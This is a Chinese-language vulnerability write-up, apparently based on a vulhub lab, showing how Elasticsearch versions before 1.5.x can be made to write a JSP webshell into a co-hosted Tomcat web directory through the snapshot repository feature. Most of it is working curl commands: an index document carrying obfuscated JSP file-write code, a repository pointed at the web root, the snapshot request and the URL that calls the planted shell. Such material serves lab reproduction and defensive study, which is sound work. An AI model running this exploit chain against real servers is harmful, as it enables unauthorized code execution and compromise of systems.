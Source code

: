 ```yaml
---
title: Elasticsearch 1.5.x 后台getshell
id: zhfly2901
---
```


# Elasticsearch 1.5.x 后台getshell

## 一、漏洞简介

ElasticSearch具有备份数据的功能，用户可以传入一个路径，让其将数据备份到该路径下，且文件名和后缀都可控。

所以，如果同文件系统下还跑着其他服务，如Tomcat、PHP等，我们可以利用ElasticSearch的备份功能写入一个webshell。

和CVE-2015-5531类似，该漏洞和备份仓库有关。在elasticsearch1.5.1以后，其将备份仓库的根路径限制在配置文件的配置项`path.repo`中，而且如果管理员不配置该选项，则默认不能使用该功能。即使管理员配置了该选项，web路径如果不在该目录下，也无法写入webshell。所以该漏洞影响的ElasticSearch版本是1.5.x以前。

## 二、漏洞影响

Elasticsearch 1.5.x

## 三、复现过程

### 测试环境

编译与启动测试环境：

```
docker-compose build
docker-compose up -d 
```

简单介绍一下本测试环境。本测试环境同时运行了Tomcat和ElasticSearch，Tomcat目录在`/usr/local/tomcat`，web目录是`/usr/local/tomcat/webapps`；ElasticSearch目录在`/usr/share/elasticsearch`。

我们的目标就是利用ElasticSearch，在`/usr/local/tomcat/webapps`目录下写入我们的webshell。

### 漏洞复现

首先创建一个恶意索引文档：

```
curl -XPOST http://www.0-sec.org:9200/yz.jsp/yz.jsp/1 -d'
{"<%new java.io.RandomAccessFile(application.getRealPath(new String(new byte[]{47,116,101,115,116,46,106,115,112})),new String(new byte[]{114,119})).write(request.getParameter(new String(new byte[]{102})).getBytes());%>":"test"}
' 
```

再创建一个恶意的存储库，其中`location`的值即为我要写入的路径。

> 园长：这个Repositories的路径比较有意思，因为他可以写到可以访问到的任意地方，并且如果这个路径不存在的话会自动创建。那也就是说你可以通过文件访问协议创建任意的文件夹。这里我把这个路径指向到了tomcat的web部署目录，因为只要在这个文件夹创建目录Tomcat就会自动创建一个新的应用(文件名为wwwroot的话创建出来的应用名称就是wwwroot了)。

```
curl -XPUT 'http://www.0-sec.org:9200/_snapshot/yz.jsp' -d '{
     "type": "fs",
     "settings": {
          "location": "/usr/local/tomcat/webapps/wwwroot/",
          "compress": false
     }
}' 
```

存储库验证并创建:

```
curl -XPUT "http://www.0-sec.org:9200/_snapshot/yz.jsp/yz.jsp" -d '{
     "indices": "yz.jsp",
     "ignore_unavailable": "true",
     "include_global_state": false
}' 
```

完成！

访问`http://www.0-sec.org:8080/wwwroot/indices/yz.jsp/snapshot-yz.jsp`，这就是我们写入的webshell。

该shell的作用是向wwwroot下的test.jsp文件中写入任意字符串，如：`http://www.0-sec.org:8080/wwwroot/indices/yz.jsp/snapshot-yz.jsp?f=success`，我们再访问/wwwroot/test.jsp就能看到success了：

![image](../img/fcd2159caeb799a1863e7c3de060a310.png)

## 参考链接

> https://vulhub.org/#/environments/elasticsearch/WooYun-2015-110216/